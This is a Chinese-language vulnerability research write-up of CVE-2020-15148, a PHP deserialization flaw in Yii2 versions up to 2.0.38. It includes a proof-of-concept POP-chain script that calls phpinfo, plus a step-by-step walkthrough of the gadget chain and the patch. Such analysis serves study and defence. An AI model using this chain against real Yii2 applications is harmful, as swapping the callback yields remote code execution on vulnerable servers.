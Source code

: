 继续审计~
参考:
[+++](https://blog.csdn.net/qq_46918279/article/details/120473172)


## 环境部署
[源码](https://github.com/yiisoft/yii2/releases/tag/2.0.37)
`yii-basic-app-2.0.37.tgz `

## 简介
```
Yii Framework是一个基于组件、用于开发大型Web应用的高性能 PHP 框架。Yii提供了今日Web 2.0应用开发所需要的几乎一切功能。Yii是最有效率的PHP框架之一。
```

Yii<=2.0.38存在反序列化漏洞

## 分析
PoC
```php
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;
 
        public function __construct(){
            $this->checkAccess = 'phpinfo';
            $this->id = '1';
        }
    }
}
 
namespace Faker{
    use yii\rest\CreateAction;
 
    class Generator{
        protected $formatters;
 
        public function __construct(){
            $this->formatters['close'] = [new CreateAction(), 'run'];
        }
    }
}
 
namespace yii\db{
    use Faker\Generator;
 
    class BatchQueryResult{
        private $_dataReader;
 
        public function __construct(){
            $this->_dataReader = new Generator;
        }
    }
}
 
namespace{
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
}
```

emmm 其实找到这里就结束了
![img](<[CVE-2020-15148] Yii2反序列化漏洞/images/image.png>)


找到一个`call_user_func`且参数均为可控的`$this->xxx`
甚至这个类的所有方法都是public...
接下来就是找POP链

链首:
![img](<[CVE-2020-15148] Yii2反序列化漏洞/images/image-1.png>)

yii\db\BatchQueryResult 反序列化触发`__destruct` -> `$this->reset()` -> `$this->_dataReader->close()`

链中:
![img](<[CVE-2020-15148] Yii2反序列化漏洞/images/image-2.png>)

把`_dataReader`设置为Generator 触发`__call` -> `$this->format`
![img](<[CVE-2020-15148] Yii2反序列化漏洞/images/image-3.png>)

`getFormatter`
![img](<[CVE-2020-15148] Yii2反序列化漏洞/images/image-4.png>)

如果我们设置了`$this->formatters['close']`的值 就会返回这个值作为
`call_user_func_array`的第一个参数也就是方法
而后面的参数是不可控的

要实现RCE就需要继续找含有`call_user_func`或`call_user_func_array`且参数可控的无参方法

phpstorm正则语法 `function \w*\(\)\n? *\{(.*\n)+ *call_user_func`
![img](<[CVE-2020-15148] Yii2反序列化漏洞/images/image-5.png>)

找到链尾:
![img](<[CVE-2020-15148] Yii2反序列化漏洞/images/image-6.png>)


整体流程就清晰了

虽然最后有个很离谱的问题。。。 没有可利用的反序列化入口点。。。
![img](<[CVE-2020-15148] Yii2反序列化漏洞/images/image-7.png>)

官方修补:
![img](<[CVE-2020-15148] Yii2反序列化漏洞/images/image-8.png>)

加了个`__wakeup` (能绕?)
分析了下应该是绕不了的
CVE-2016XXX版本太老了
引用/数组 没机会触发
其实可以试试GC垃圾回收机制能不能提前触发

---
---

里面有几个点值得学习:
* 构造`$this->formatters['close']`的时候 我们是要调用可控CreateAction类的run方法 可以用数组的形式来赋值
* 找无参且含有`call_user_func`的时候用正则匹配提高效率
